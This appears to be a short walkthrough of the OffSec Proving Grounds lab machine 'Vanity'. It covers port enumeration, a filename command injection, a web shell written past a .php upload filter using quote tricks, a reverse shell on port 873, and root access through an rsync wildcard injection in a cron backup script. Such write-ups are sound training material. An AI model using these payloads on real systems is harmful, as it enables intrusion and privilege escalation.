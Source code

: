 # Vanity

## Intro

Vanity is a 'get to work' intermediate linux machine from offsec proving grounds.

## Enum

### Nmap

Nmap scan of all tcp ports.

```
22/tcp  open  ssh     syn-ack ttl 61 OpenSSH 8.2p1 Ubuntu 4ubuntu0.5 (Ubuntu Linux; protocol 2.0)
80/tcp  open  http    syn-ack ttl 61 Apache httpd 2.4.41 ((Ubuntu))
873/tcp open  rsync   syn-ack ttl 61 (protocol version 31)
```

### HTTP 80

Username and email from landing page footer.  

`enox@vanity.offsec`


## Command injection

In burp repeater, changing the filename returns the command output after execution.  

`mal.txt ; id ;`


The following filename injection creates a webshell in uploads, beating the .php file filter because linux  
ignores closed quotes in a string.  

`mal.txt ; echo '<?php system($_REQUEST[\"cmd\"]);?>' > shell.p'h'p ;`

A rev shell file can be uploaded and caught through port 873 as I think that is the only one not being blocked.

## Root

There is a cron job running that executes a bash script.  

`/opt/backup.sh`

This runs rsync using a wildcard enabling an injection attack.  

`touch /var/www/html/uploads/-e sh evil.sh`

